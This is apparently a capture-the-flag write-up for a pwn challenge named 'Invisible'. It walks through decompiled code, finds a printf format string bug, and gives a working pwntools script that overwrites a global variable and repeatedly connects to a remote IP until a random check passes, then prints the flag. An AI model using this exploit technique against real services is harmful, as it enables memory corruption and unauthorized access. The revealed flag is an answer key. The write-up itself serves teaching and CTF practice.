


# 3- Invisible 
```
Medium: pwn, 300 pts
```

## Description
```
I'm here 👀👀👀
nc 51.38.37.81 1234
Flag: CTF_*
```

>For this challenge, we are entitled to a pwn. Before of course running the file to see what it does, let's open it with ghidra.
>But well before, let's see what kind of file we are dealing with.

`$ file invisible`

`invisible: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8226f97582f5dceed8f5322cacb7f48abdbad248, for GNU/Linux 3.2.0, not stripped`

>Now let's see what ghidra tells us about our binary. Only one interesting function apart from the main: print_flag.


- print_flag

```c

void print_flag(void)

{
  system("cat /home/ecowas/flag");
  return;
}

```
- main

```c

undefined8 main(void)

{
  time_t tVar1;
  char local_98 [140];
  int local_c;
  
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  local_c = rand();
  local_c = local_c % 0x32;
  memset(local_98,0,0x80);
  fgets(local_98,0x80,stdin);
  printf(local_98);
  if (local_c == 0x1b) {
    if (admin == 200) {
      print_flag();
    }
  }
  else {
    printf("Try again");
  }
  return 0;
}
```

>Obviously the print_flag function just displays the flag.
And the main then?
Two tricks catch our attention, two if conditions.
The first compares the local_c variable to 27 and the second compares the admin variable to 200.

>So for print flag, we have to match admin to 200 and local_c to 27. Small problem, we can't do it directly. It should be pointed out that the local_c is a (50 % rand).
>But thinking about it there is a problem with the printf function long before the two if conditions. 

There:

```c
  memset(local_98,0,0x80);
  fgets(local_98,0x80,stdin);
  printf(local_98); #bug here
```

> We are therefore dealing with an **ELF x64 - Format string bug**

>We propose a solution with pwntools and their module fmtstr.
A link to the doc <a href=http://docs.pwntools.com/en/stable/fmtstr.html>pwntools fmtstr</a>.
Our solution will consist in changing the value of admin and brute force the local_c so that it matches the 27 during the rand on the server.
>Now, we need to check if the data we give in the input is stored somewhere in the stack. To do that I give some bunch of characters and see if the data is printed when I print stack values with format specifiers.
>But before we must add execution right to the file

`$ chmod +x invisible`

And execute it.


>Bingoooo 😌, we can now control the values on the stack from the 8th argument. We will now look for the address of the admin variable. To do this we will use `readelf`

`$ readelf -a ./invisible | grep admin`

The result:



>We now have everything to write our exploit: the value to write, the address and the offset. 
>I specify that we must set the context on 64 bits. Below is the python code.

```python
from pwn import *
from time import sleep
context.arch = 'amd64'
for i in range(500):
	conn=remote('51.38.37.81',1234)
	payload=fmtstr_payload(8,{0x000000000040405c:200})
	conn.sendline(payload)
	print(conn.recvall())
	conn.close()
	sleep(0.1)
```

>It will depend on the server, i.e. the time to wait to match the local_c at 27. After a few minutes or seconds, we have our flag and we can therefore Ctrl+C (even if it is possible to add a line that does this in our exploit).
 
 
The flag: `CTF_14mpwnG047?943985030823`
